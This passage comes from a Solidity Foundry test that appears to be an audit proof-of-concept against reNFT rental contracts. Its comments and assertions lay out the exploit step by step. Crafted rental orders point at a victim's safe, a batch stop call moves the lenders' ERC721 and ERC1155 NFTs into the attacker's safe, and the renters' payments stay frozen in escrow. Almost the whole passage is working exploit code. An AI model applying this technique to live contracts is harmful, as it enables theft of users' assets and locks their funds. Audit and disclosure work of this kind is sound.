 ```solidity
            rentalOrder.rentalWallet = victimRentalOrders[i].rentalWallet;

            rentalOrders[i] = rentalOrder;
        }

        // ------ Execute exploit ------ //

        // call `stopRentBatch(rentalOrders)`. All fields pertain to our soon-to-be created orders, except for the `rentalWallet`, which is pointing to the victim's safe
        // attackerContract.stopRental(rentalOrder[0], stop);
        // attackerContract.stopRental(rentalOrder[1], stop);
        attackerContract.stopRentals(rentalOrders, stop);
        
        // ------ Loop over all victimRentalOrders to verify end state ------ //

        // speed up in time past the victimRentalOrders' expiration
        vm.warp(block.timestamp + 750);

        for (uint256 i; i < victimRentalOrders.length; i++) {
            Item memory victimItem = victimRentalOrders[i].items[0];

            // verify that our attackerContract's safe is now the owner of the NFT
            if (victimItem.itemType == reNFTItemType.ERC721) {
                assertEq(MockERC721(victimItem.token).ownerOf(victimItem.identifier), attackerSafe);
            }
            if (victimItem.itemType == reNFTItemType.ERC1155) {
                assertEq(MockERC1155(victimItem.token).balanceOf(attackerSafe, victimItem.identifier), victimItem.amount);
            }

            // verify that our rentalOrder has been stopped (deleted from storage)
            RentalOrder memory rentalOrder = rentalOrders[i];
            bytes32 rentalOrderHash = create.getRentalOrderHash(rentalOrder);
            assertEq(STORE.orders(rentalOrderHash), false);

            // lender attempts to stop victimRentalOrder, but call fails (renter's safe is no longer the owner of the NFT)
            vm.startPrank(victimRentalOrders[i].lender);
            vm.expectRevert();
            stop.stopRent(victimRentalOrders[i]);
            vm.stopPrank();

            // verify that victimRentalOrder has not been stopped (is still in storage)
            bytes32 victimRentalOrderHash = create.getRentalOrderHash(victimRentalOrders[i]);
            assertEq(STORE.orders(victimRentalOrderHash), true);
        }

        // renters' rental payments to lenders' is still in the escrow contract
        assertEq(erc20s[0].balanceOf(address(ESCRW)), uint256(victimRentalOrders.length * 100));

        // verify that our attackerContract received its rental payment back from all the created malicious orders
        assertEq(erc20s[0].balanceOf(address(attackerContract)), victimRentalOrders.length);

        // End result:
        // 1. Lenders' NFTs were stolen from renters' safe wallet and is now frozen in the attackerContract's safe wallet
        // 2. Renters' rental payments to Lenders are frozen in the Escrow contract since their rentals can not be stoppped
    }

    function _createAndFulfillVictimOrders() internal returns (
```